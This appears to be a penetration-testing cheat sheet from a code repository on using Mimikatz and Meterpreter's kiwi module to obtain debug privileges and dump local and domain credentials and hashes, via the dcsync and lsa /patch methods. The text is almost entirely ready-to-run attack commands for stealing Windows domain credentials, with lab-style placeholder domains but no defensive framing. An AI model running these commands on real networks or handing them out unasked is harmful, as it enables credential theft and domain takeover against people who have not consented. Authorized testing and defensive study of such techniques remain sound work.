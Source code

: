 # Mimikatz

Use Mimikatz to dump local and domain plaintext credentials and hashes.

## Ensure you have administrative privileges

On a **Mimikatz prompt**:

```powershell
mimikatz: privilege::debug
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > kiwi_cmd privilege::debug
```

If the output is **Privilege '20' OK**, you're good to move forward.

## Dump Domain Hashes (dcsync method)

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::dcsync /domain:$DOMAIN_NAME /all # HYDRA.test
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > dcsync_ntlm $DOMAIN_USER # HYDRA\\grant.ward
```

## Dump Domain Hashes (lsa method)

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::lsa /patch
```
